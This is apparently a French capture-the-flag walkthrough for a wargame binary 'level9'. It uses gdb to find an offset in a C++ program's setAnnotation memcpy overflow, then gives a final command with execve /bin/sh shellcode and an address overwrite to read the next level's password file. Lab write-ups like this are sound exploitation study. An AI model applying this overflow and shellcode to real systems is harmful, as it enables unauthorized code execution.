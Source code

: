 #level9

$ ./level9
$ ./level9 test
$ ./level9 test test

On remarque que le programme n'affiche rien.

Après une analyse avec gdb, on obtient les informations suivantes:

    N::N(int)
    N::setAnnotation(char*)
    N::operator+(N&)
    N::operator-(N&)
    main, C'est un programme en cpp qui n'appelle pas /bin/sh et ne recupère pas non plus le pass. Donc on va surement utilisé un shellcode.
    On va utiliser le memcpy sur argv[1] dans setAnnotation() pour faire appel au edx pour appeler le shellcode.

D'abord on récupère le offset:

> run 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
> The program being debugged has been started already.
> Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()

> i r
> eax 0x62626262 1650614882
> ...

Donc on a eax a 62626262 -> bbbb donc le offset commence à 108.

Il nous faut l'adresse du buffer, donc on va mettre un breakpoint juste après le setAnnotation().

> b \*main+136
> Breakpoint 1 at 0x804867c
> run 'AAAA'
> Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()

> x $eax
> 0x804a00c: 0x41414141

Donc l'adresse du buffer est 0x804a00c. La valeur esp+0x10 va etre donc 0x804a00c mais vu qu'on va encore dereferencer, l'adresse va pointer au début du shellcode donc 0x804a00c + 4 = 0x804a010.

Notre commande finale est donc:
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" \* 76 + "\x0c\xa0\04\x08"')

$cat /home/user/bonus0/.pass
